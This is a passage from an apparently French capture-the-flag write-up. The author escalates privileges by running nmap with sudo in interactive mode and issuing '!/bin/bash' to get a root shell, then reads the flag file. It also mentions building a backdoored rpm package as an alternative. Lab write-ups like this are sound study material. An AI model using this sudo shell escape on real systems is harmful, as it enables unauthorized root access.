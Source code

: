 Je ne connais pas bien *yum* et je ne sais pas avec quelle facilité il est possible de lui faire exécuter des commandes...  

On peut sinon utiliser *yum* pour installer un logiciel vulnérable et ensuite exploiter ce dernier ou créer un paquet *rpm* contenant une backdoor (un peu prise de tête).  

Du coup, après un coup d’œil dans la page de manuel de *nmap*, je l'appelle en mode interactif et invoque */bin/bash* :  

```plain
bash-3.2$ sudo /usr/bin/nmap --interactive

Starting Nmap V. 4.11 ( http://www.insecure.org/nmap/ )
Welcome to Interactive Mode -- press h <enter> for help
nmap> !/bin/bash
bash-3.2# id
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel)
bash-3.2# cd /root
bash-3.2# ls
anaconda-ks.cfg  trophy.txt
bash-3.2# cat trophy.txt 
cc614640424f5bd60ce5d5264899c3be
```

Finish

*Published October 01 2014 at 18:57*

